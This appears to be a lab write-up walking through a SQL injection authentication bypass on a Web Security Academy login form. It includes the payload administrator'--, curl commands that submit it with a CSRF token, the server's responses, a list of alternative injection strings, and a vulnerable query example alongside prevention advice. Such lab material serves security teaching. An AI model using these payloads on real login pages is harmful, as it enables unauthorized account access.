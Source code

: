 # SQL Injection - Authentication Bypass

## Lab Description
This lab contains a SQL injection vulnerability in the login function. The goal is to bypass authentication and log in as the `administrator` user without knowing the password.

**Difficulty**: Apprentice  
**Lab URL**: https://0acc002703ba80758571d5c9001e0084.web-security-academy.net/

## Vulnerability Analysis

### Typical Login Query
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password123'
```

The application checks if both username and password match. If we can manipulate the query to always return true or ignore the password check, we can bypass authentication.

### Injection Point
The `username` field in the login form is vulnerable to SQL injection.

## Exploitation

### Step 1: Understand the Attack
We'll inject a SQL comment (`--`) to comment out the password check, making the query only verify the username.

**Payload**: `administrator'--`

This transforms the query to:
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'xxx'
```

Everything after `--` is commented out, so the password check is ignored.

### Step 2: Login Form Analysis

**Request to login page**:
```bash
curl -s "https://[lab-url]/login"
```

**Response** (truncated):
```html
<form class=login-form method=POST action="/login">
    <input required type="hidden" name="csrf" value="fRF9AM700o8FCsV3rdCnBD9BTGMYEGp5">
    <input required type=username name="username" autofocus>
    <input required type=password name="password">
</form>
```

### Step 3: Execute the Attack

**Method 1: Browser**
1. Navigate to the login page
2. Enter username: `administrator'--`
3. Enter any password (it will be ignored)
4. Click "Log in"

**Method 2: curl**
```bash
# Get CSRF token
curl -s "https://[lab-url]/login" -c cookies.txt | grep csrf | grep -oP 'value="\K[^"]+'

# Login with SQL injection
curl -i "https://[lab-url]/login" \
  -b cookies.txt \
  -d "csrf=<CSRF_TOKEN>&username=administrator'--&password=anything" \
  -L
```

**Response** (truncated):
```http
HTTP/2 302 
location: /my-account?id=administrator
set-cookie: session=JfIi8YXVAI99AGEUzpNBsyoylWjP7CHr; Secure; HttpOnly; SameSite=None

HTTP/2 200 
content-type: text/html; charset=utf-8

<p>Your username is: administrator</p>
```

### Step 4: Verify Success
After successful login, you'll be redirected to `/my-account?id=administrator` and see:
```html
<p>Your username is: administrator</p>
```

The lab will automatically mark as solved.

## Key Concepts

1. **SQL Comments**: 
   - `--` (SQL standard - requires space after)
   - `#` (MySQL)
   - `/* */` (Multi-line comment)

2. **Authentication Bypass**: By commenting out the password check, we only need a valid username

3. **Always True Conditions**: Alternative approach using `' OR '1'='1'--`

## Alternative Payloads

```sql
administrator'--
admin' OR '1'='1'--
admin' OR 1=1--
' OR '1'='1'--
administrator'#
administrator'/*
```

**Note**: When using `--`, you need a space after it in SQL. In URLs, this is represented as `--+` or `--%20`.

## Prevention

- **Use Parameterized Queries**: Never concatenate user input into SQL
  ```python
  # Bad
  query = f"SELECT * FROM users WHERE username = '{username}'"
  
  # Good
  query = "SELECT * FROM users WHERE username = ?"
  cursor.execute(query, (username,))
  ```
- **Implement proper input validation**
- **Use ORM frameworks** (e.g., SQLAlchemy, Hibernate)
- **Apply least privilege** for database accounts
- **Add additional authentication layers** (MFA, rate limiting)

## Lab Completion
Once logged in as administrator, the lab is automatically solved.
